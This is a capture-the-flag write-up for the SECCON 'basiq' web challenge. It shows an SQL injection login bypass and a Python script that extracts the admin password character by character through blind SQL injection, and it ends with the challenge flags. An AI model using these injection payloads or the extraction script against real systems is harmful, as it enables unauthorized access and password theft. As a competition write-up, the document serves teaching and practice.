 ﻿# basiq (web, 100, 31 solves)

> What is admin's password?☺

![scr1.png](scr1.png)


http://basiq.pwn.seccon.jp/admin turned out to be vulnerable to a basic auth sql injection

A simple sqli:

```
user:admin
pass:'or '1'='1
```

works


We'll use the `mid` function to iterate the admins password and brute each letter separately.

``` python 

import requests
import string

url = "http://basiq.pwn.seccon.jp/admin/"
password = "SECCON"

alphabet = "_{}" + string.lowercase + string.uppercase

for q in range(len(password)+1, 30):

	found = False

	for i in alphabet:
		r = requests.get(url=url, auth=('admin', "zaaaqwewqz' or (id = 'admin' and mid(binary pass, 1, {}) = '{}') #".format(q, password+i)))

		if(r.status_code == 200):
			password += i
			print(password)
			found = True
			break

	if(not found):
		print("Dead end :c")
		break
```
A quick explaination:

The `id` column has to be set to `admin` otherwise we'd get other players' passwords (shout-out to `SECCON{A_Sql_Injection_is_easy}`)

`binary pass` makes sure, that the compare is case sensitive.

After a few minutes of work, we got our flag: `SECCON{Carnival}`
